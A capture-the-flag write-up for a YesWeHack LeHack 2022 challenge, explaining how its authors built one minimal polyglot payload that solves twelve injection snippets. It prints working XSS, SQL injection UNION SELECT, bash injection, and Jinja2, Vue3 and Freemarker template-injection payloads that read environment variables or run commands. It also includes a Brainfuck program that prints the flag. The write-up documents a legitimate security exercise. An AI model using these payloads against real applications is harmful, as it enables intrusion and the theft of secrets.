



# WriteUP Challenge YesWeHack LeHack 2022

> Writed By Maxime Bru, Aku --> @akumarachi & https://github.com/Hakumarachi
>
> Challenge created by @BitK_

The objective of this challenge is to write a polyglot payload that will print the flag within 12 code snippets at the same time. 

The user with the smaller payload that flag the all 12 snippets win the challenge.

The 12 code snippets aim different technologies like Bash or Jinja2.

In order to solve the challenge, we must cut  it in 3 different parts.

## Get a working payload for all code snippets

### XSS

In this challenge there is 4 XSS. To solve it, we just have to alert the FLAG variable :

- In script tag with quote

```html
<html><body>
  <script>
    const FLAG = "FLAG"
    const x = "PAYLOAD"
  </script>
</body></html>
```

The payload is loaded inside quotes, a quot escape following by comment marker is enough to flag it : 

```html
"; alert(FLAG) //
```

-  In script tag without quote

```html
<html><body>
  <script>
    const FLAG = "FLAG"
    const x = PAYLOAD
  </script>
</body></html>
```

```
1; alert(FLAG);
```

- in h1 tag

```html
<html><body>
  <script>var FLAG = "FLAG"</script>
  <h1>Hello PAYLOAD</h1>
</body></html>
```

We can add a `<script>` tag within the `<h1>` tag :

```html
<script>alert(FLAG)</script>
```

- In div class attribute, with '<>' html encoded

```html
<html><body>
  <script>var FLAG = "FLAG"</script>
  <div class="PAYLOAD">
    Hello world
  </div>
</body></html>
```

Here, we just have to escape the 'class' attribute and write new attribute that execute the alert() within the div :

```html
" autofocus onfocus="alert(FLAG)" contenteditable="True
```

### SQLi

There is 2 SQLi snippets. The flag had to be in the SQL response to validate these parts.

- In single Quoted string

```sqlite
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
INSERT INTO users (username, password, age) VALUES ('admin', 'admin', 42);
INSERT INTO flag (flag) VALUES ('FLAG');
SELECT username FROM users WHERE username LIKE 'PAYLOAD';
```

A simple quote escape and UNION SELECT will flag it : 

```sqlite
' UNION SELECT flag from flag; --
```

- Not quoted

```sqlite
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
INSERT INTO users (username, password, age) VALUES ('admin', 'admin', 42);
INSERT INTO flag (flag) VALUES ('FLAG');
SELECT username FROM users WHERE username LIKE PAYLOAD;
```

Just don't forget to have a valid value before the `UNION SELECT` unless the first select will crash 

```sqlite
1 UNION SELECT flag from flag;
```

### BASH 

the flag is stored in an environment variable, echo the $flag var will flag these parts. 

- Basic command injection 

```bash
export FLAG=FLAG
id PAYLOAD
```

Just don't forget to have a valid value before the `echo` unless the id command will crash 

```bash
1;
echo $FLAG;
```

- Command injection inside cat <<< 'EOF'

```bash
export FLAG=FLAG
cat <<< 'EOF'
PAYLOAD
EOF
```

A simple payload will work :

```bash
EOF
echo $flag;
```

### Template injection

The flag is stored inside the host environments variables. We have to make a template injection that will read them. 

there is the same code snippets for each template injection :

```html
<h1>Hello PAYLOAD</h1>
```

- Jinja2

Any Jinja simple payload will work 

```jinja2
{{cycler.__init__.__globals__.os.environ}}
```

- Vue3

```vue
{{''.constructor.constructor("return process.env")()}}
```

- Freemarker

```java
${"freemarker.template.utility.Execute"?new()("env")}
```

### Brainfuck

*Ouch time (the first)*

The last but not the least... brainfuck !! https://en.wikipedia.org/wiki/Brainfuck

here the flag is split in 2 parts. the first one is stored in memory, the other is writted in stdin.

The author of the challenge let us the brainfuck interpreter used by the challenge : 

```javascript
function Memory(size) {
  const assertSize = (k) => {
    if (k >= 0 && k < size) return k;
    throw new Error(`out of bounds memory access`);
  };

  return new Proxy(
    {},
    {
      get: (target, key) => Reflect.get(target, assertSize(~~key)) || 0,
      set: (target, key, value) => Reflect.set(target, assertSize(~~key), value),
    }
  );
}

const StringtoIntArray = (s) => Array.from(s).map((c) => c.charCodeAt(0));
const IntArraytoString = (arr) => String.fromCharCode(...arr);

function brainfuck(rom, flag) {
  // Split flag into two parts, one will be in memory the other on stdin
  const firstHalf = StringtoIntArray(flag.slice(0, flag.length / 2));
  const secondHalf = StringtoIntArray(flag.slice(flag.length / 2));

  const ram = Memory(3000);
  const stdout = [];

  for (let i = 0; i < firstHalf.length; i++) {
    ram[i] = firstHalf[i];
  }

  let ip = 0;
  let fp = 0;

  function search(d, s="[]") {
    let depth = 1;
    while (depth > 0) {
      ip = ip + d;
      if (rom[ip] === undefined) throw new Error("unexpected end of code");
      depth += ~~(rom[ip] == s[~~(d < 0)]) - ~~(rom[ip] == s[~~(d > 0)]);
    }
  }

  const STOP = Symbol("stop");

  const ops = {
    ">": () => ++fp,
    "<": () => --fp,
    "+": () => ++ram[fp],
    "-": () => --ram[fp],
    ".": () => stdout.push(ram[fp]),
    ",": () => (ram[fp] = secondHalf.shift() ?? 0),
    "[": () => ram[fp] === 0 && search(1),
    "]": () => ram[fp] !== 0 && search(-1),
    undefined: () => STOP,
  };

  for (; ops[rom[ip]]?.() !== STOP; ip++);
  return IntArraytoString(stdout);
}

const code = ">."* 16 + ",."*16;
const code = "[[-]>]++++++++[>++++[>++>+++>+++>+<<<<-]>+>+>->>+[<]<-]>>.>---.+++++++..+++.>>.<-.<.+++.------.--------.>>+.";
const flag = "000102030405060708090a0b0c0d0e0ff0f1f2f3f4f5f6f7f8f9fafbfcfdfeff"; // random 64 hex
const result = brainfuck(code, flag);
const success = result == flag;
console.log({ result, success }); 
```

As we can see, the flag is a random 32 character string (stored in hex)

We have to print the first 16 character from memory and the 16 last from stdin. 

We can see a code example within the interpreter :

```
[[-]>]++++++++[>++++[>++>+++>+++>+<<<<-]>+>+>->>+[<]<-]>>.>---.+++++++..+++.>>.<-.<.+++.------.--------.>>+.
```

And this is the code example to print 'hello world' in brainfuck... **Hell yeah it's ~~not~~ gonna be funny !!**

**We doesn't have the time to understand how brainfuck work in detail so I'll just describe what we need to solve the challenge :**

This language work with an array as memory slots and a cursor who's navigate between these slots. 

```
memory blocks
-----------------------------
[[00][00][00][02][00][00]...]
      <-- ^ -->
```

- `>` --> move the memory cursor to the right
- `<` --> move the memory cursor to the left
- `+` --> increment the value in the memory slot pointed by the cursor
- `-` --> decrement the value in the memory slot pointed by the cursor
- `.` --> Print the content of the memory slot pointed by the cursor
- `,` --> Put the content of stdin in the memory  slot pointed by the cursor (one char only)
- `[` --> like python `while cur_memory_slot != 0) :`
- `]` --> goto nearest `[` if the memory slot pointed by the cursor is not `0`

So, now we can write a literally brainfuck payload :

- `.>` Will print the char stored in memory and shift the cursor to the next char
- `,.` Will get a char from stdin and print it.

We can brainless do the following payload : 

```
.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.
```

  And it will print the flag !!! (keep in mind, we have to write the smallest payload as possible, here we have 64 char just to brainfuck... we can do better... but it's in the last step è_é )  

##  Merge all payload in once (and keep it work)

OK ! That was not as easy at it's appear but we have our 12 payloads.... we have to make them works together now ! 

Let's do it ! First, I'll begin to merge all similar paylaods. 

###Â Merging similar payload 

- XSS

here is ours payloads :`"; alert(FLAG) //` , ` UNION SELECT flag from flag;` , `<script>alert(FLAG)</script>` and `" autofocus onfocus="alert(FLAG)" contenteditable="True`

The first 2 payload are easy to merge with playing with comments and new lines: 

```javascript
1//"; 
alert(FLAG)//
```

The third one is also easy because, in HTML, we can close any not present tag, it will not crash, so we can close `</script>` and reopen it :

```html
1//"; 
</script><script>alert(FLAG)//
```

**For the last one**, we just have to use an other way to invoke `alert` like a svg : 

```html
1//"; 
</script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>
```

- SQLi

Same work here, comments and new lines are our best friends 

There is our previous payloads : `' UNION SELECT flag from flag; --` and `1 UNION SELECT flag from flag`

```sqlite
1--'
UNION SELECT flag from flag; --
```

- BASH

**Nothing to do here :) the second payload already do the job ! **

```
EOF
env
```

- Template injection

Here is our three payloads : `{{cycler.__init__.__globals__.os.environ}}` , `{{''.constructor.constructor("return process.env")()}}` and `${"freemarker.template.utility.Execute"?new()("env")}` 

Jinja2 and Vue3 use the same syntax and use the two payloads in the same time will make crash the two interpreters... Except if the interpreter don't have to interpret it ! let's use if statements ! 

- Jinja2 if : ``
- Vue3 if  :` <div v-if="CONDITION">`

Hey ! this two syntax are different and then, we can used them in the same payload ! 

But why this should help us ? It's simple : If the condition is not met, the interpreter don't execute the code within the Conditional block and then we doesn't crash !

(Note: Here freemarker is a good guy because it have its own syntax)

```jinja2
{{''.constructor.constructor("return process.env")()}}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
```

- Brainfuck

**It is a solo guy nothing to do here :). **

### Merging All payloads 

Let's merge all, without brainfuck in a first time.

here is our payloads  :

- XSS

```html
1//"; 
</script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>
```

- SQLi

```sqlite
1--'
UNION SELECT flag from flag; --
```

- Bash

```bash
EOF
env
```

- Template Injection

```jinja2
{{''.constructor.constructor("return process.env")()}}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
```

I began by merge XSS and SQL because it begin with the same idea and we can use common multi line comment between js and SQLite (`/* */`)

Little detail, I use the `--` sql comment end line. But this doesn't exist in JS. But the object `-->` exist... let use it :)  

```html
1/*/"/* 
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

Because we are inside SQL or JS string or comment, we can easily add template injection :

```html
1/*/"/*{{''.constructor.constructor("return process.env")()}}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

 And then, to ADD bash, we have to make the command id work, and to to that we have to use Bash comment char : `#` and force the id command line to finish with `;`

```html
1/*;#/"/*{{''.constructor.constructor("return process.env")()}}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

### Merging Brainfuck

As you can see in the payload above, we use many brainfuck char and many no brainfuck char. 

Fortunately, all char outside of the brainfuck charset are just skipped by the interpreter ! 

But all branfuck valid char break our payload... ** only if brainfuck had to execute it ** exactly as the template injection, if we put or code in a conditional statement who never met the condition, the code will never be executed. 

So how to do that in brainfuck ? 

To remember, `[]` will execute the code inside the brackets only if the memory slot pointed by the cursor is not 0... so we just have to set it at 0 and put all payloads containing valid char inside brackets !!! 

(because we have to go to a memory slot with 0 as value, we must have to print the first flag's part before all other payload)

```html
1/*;#/"/*.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.>[{{''.constructor.constructor("return process.env")()}}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```




 **Congratulation !! Now we have to make the smallest payload possible !** 

## OPTIMIZATION !!!!!

###Â Brainfuck 

During all this Writeup Brainfuck was the latest point observed ! But here we have **MANY** savable characters !

First, the reading of the flag from the memory. At the beginning the cursor point at the first char of the flag, so the value isn't 0. And because of shifting to right the cursor at each reading of a char, at the end of the read, the cursor point a memory slot with a value set to 0 ! So we can make a while ! 

```
[.>]
```

Here, until the cursor doesn't point an empty slot memory, it's print the pointing memory and it's shift the cursor to the right .

For the seconds part of the flag, it's a similar method. At the end of stdin, `,` instruction will receive a null value so :

```
,[.,] 
```

because of the first part, the cursor point a null value, so we get the first char from stdin and we enter the loop where it's print the char and get the next stdin char until it receive a null value !

```html
1/*;#/"/*[.>],[.,][{{''.constructor.constructor("return process.env")()}}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

  **We just saved 120 characters  !!**

### Template injection  

We use if statement to not execute Jinja2 payload on Vue and vice versa . We can also use our best friend : comments !!!!

- `{#COMMENT#}` in Jinja2
- `<!-- COMMENT -->` in Vue3

BUT `#{` is a valid marker in templater ! so we have to ad a space between comment and Vue Payload . 

I can also use an shortest payload for Vue : `{{$emit.constructor("return process.env")()}}`

```
1/*;#/"/*[.>],[.,][{# {{$emit.constructor("return process.env")()}}#}<!--{{cycler.__init__.__globals__.os.environ}}${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```



### XSS AND SQLi

To finish, there is 2 little adjustment that we cab do to save some characters.

I can do a `SELECT *` in SQL to save 3 chars ! 

In the HTML tag I can remove some useless elememnts

And, All useless spaces can be removed !

```html
1/*;#/"/*[.>],[.,][{# {{$emit.constructor("return process.env")()}}#}<!--{{cycler.__init__.__globals__.os.environ}}${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus=alert(FLAG) contenteditable'
UNION SELECT*from flag;--
```

